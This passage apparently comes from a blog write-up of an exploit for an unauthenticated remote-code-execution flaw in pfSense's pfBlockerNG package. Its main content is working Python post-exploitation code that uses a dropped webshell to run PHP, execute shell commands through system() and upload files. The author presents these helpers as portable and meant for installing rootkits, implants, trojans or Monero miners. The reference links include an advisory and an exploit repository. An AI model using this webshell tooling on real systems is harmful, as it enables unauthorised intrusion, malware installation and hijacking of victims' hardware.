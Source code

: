 Using these, we can now look into uploading and executing whatever we want - our choice of rootkit, implant, monero miner...

The first three of these are generic - and portable to any exploit that drops a webshell. 

One of the reasons I spent so long faffing with this, was because I'll need to reimplement the same logic again, so having it there to copypasta is handy. 

The fourth relies on a specific cleaning script that is specific to this exploit/appliance. It will need tweaking each time I want to port it to something. 

For executing PHP code, we have the following simple function - it simply sends PHP code to the webshell, and gets the response.

{% highlight python %}
def execute_php(base_url, shell_webpath, shell_param, php_code):
    # run php via webshell
    shell_url = base_url + shell_webpath
    data = {shell_param: php_code}
    r = requests.post(shell_url, data, verify=False)
    return r.text
{% endhighlight%}

For executing commands, we call that execute_php function.

{% highlight python %}
def execute_command(base_url, shell_webpath, shell_param, shell_command):
    # executes a shell command using execute_php
    php_code = f"system('{shell_command}');" 
    output = execute_php(base_url, shell_webpath, shell_param, php_code)
    return output
{% endhighlight %}

And for uploading files? Well, we just use the webshell again! PHP will handle all the file upload garbage for us!

{% highlight python %}
def upload_file(base_url, shell_webpath, shell_param, local_file, remote_file):
    # uploads a file from local to remote
    raw_php = f"move_uploaded_file($_FILES['uploaded_file']['tmp_name'], '{remote_file}');"
    php_bytes_uploader = raw_php.encode('ascii')
    files = {'uploaded_file': open(local_file, "rb")}
    data = {shell_param: php_bytes_uploader}
    shell_url = base_url + shell_webpath
    r = requests.post(shell_url, data=data, files=files, verify=False)
    return r.text
{% endhighlight %}

Now, to upload and execute a trojan/implant/rootkit, we simply call the upload_file function, then execute it. None of this pissing about with wget/curl/fetch or whatnot, we can do it inline. 


[ihteam-advisory]: https://www.ihteam.net/advisory/pfblockerng-unauth-rce-vulnerability/
[senselessviolence]:   https://github.com/EvergreenCartoons/SenselessViolence
[pfsense]: https://pfsense.org
[pfblockerng]: https://docs.netgate.com/pfsense/en/latest/packages/pfblocker.html
[install-media]: https://atxfiles.netgate.com/mirror/downloads/pfSense-CE-2.5.2-RELEASE-amd64.iso.gz
[nuclei-template]: https://github.com/projectdiscovery/nuclei-templates/pull/5416
[nuclei]: https://github.com/projectdiscovery/nuclei
[pd]: https://github.com/projectdiscovery